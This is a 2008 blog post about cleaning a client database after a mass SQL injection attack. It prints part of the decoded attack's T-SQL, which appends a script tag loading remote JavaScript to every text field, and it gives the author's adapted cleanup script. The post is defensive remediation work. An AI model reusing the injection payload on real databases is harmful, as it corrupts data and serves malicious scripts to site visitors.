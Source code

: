 ```yaml
---
id: 39
title: 'Using SQL Injection attack code to repair database'
date: '2008-09-25T15:46:08-04:00'
author: Tea
layout: post
guid: 'http://www.wirelust.com/?p=39'
permalink: /2008/09/25/using-sql-injection-attack-code-to-repair-database/
dsq_thread_id:
    - '475444234'
categories:
    - SQL
    - web
tags:
    - SQL
    - 'Sql Injection'
    - Transact-SQL
    - tsql
---
```


Now that Google has started flagging sites that are linking to badware in their index I've been getting quite a few calls from people who have been flagged and need to get back on track.

These are often sites that were written a while back (not by myself) when developers didn't think as much about SQL injection as they do now. Sometimes the code was just poorly written by someone who didn't know better. However it happened, each site has its own challenge.

Fixing the security hole is generally straight forward — I usually just have to identify where the SQL isn't properly escaped and fix that code. The hard part I have had fixing these sites is fixing the database itself. Some clients have backups, and some I can fix with [SQL Log Rescue](http://www.red-gate.com/products/SQL_Log_Rescue/index.htm), but generally a lot of small clients simply don't have great control over their server and often don't have any backups.

I had one such of these clients this week where their database had hundreds and hundreds of tables, all with malware code injected into the data. I was initially going to write a script to clean all the data, but after looking at the malware attack, I was able to use their own code to fix the database.

In the server log files. I noticed this request was coming in for every script several times a day. Looks like it just wanders the internet hoping that that id=2 in the query string won't be escaped in the code.

```php
 
```

  
If the id isn't escaped, as it wasn't in this situation, a query like this will hit your SQL server:

```tsql
 
```

hmm. okay. so what is it executing as the value of @S?  
If you change the statement from EXEC(@S) to PRINT(@S) you get this:  
Warning: **Do not run this on your server, it will mess up ALL of your data**

```tsql
'u''update ['+@T+'] set ['+@C+']=''"></title><script src="http://www.wirelust.com/baddies-script.js"></script><!--''+['+@C+'] where '+@C+' not like ''%"></title><script src="http://www.wirelust.com/baddies-script.js"></script><!--'''
```

I thought this code was pretty clever. It selects a cursor that contains every varchar and text field in every table on the database, then loops over the cursor and issues an update command to append their bad script to the end of the data in each field.

Luckily, it is in their best interest to leave your data in place and just place their code at the end – it increases the chance you won't know your site is infected.

Since all of the original data is still in the database, I was able to tweak their code a little bit to write a script to fix the data:

```tsql
'u''update ['+@T+'] set ['+@C+']=Replace(['+@C+'], ''<script src="http://www.wirelust.com/baddies-script.js"></script>'', '''') where '+@C+' like ''%<script src="http://www.wirelust.com/baddies-script.js"></script>%'''-- exec(@SQL)
 
```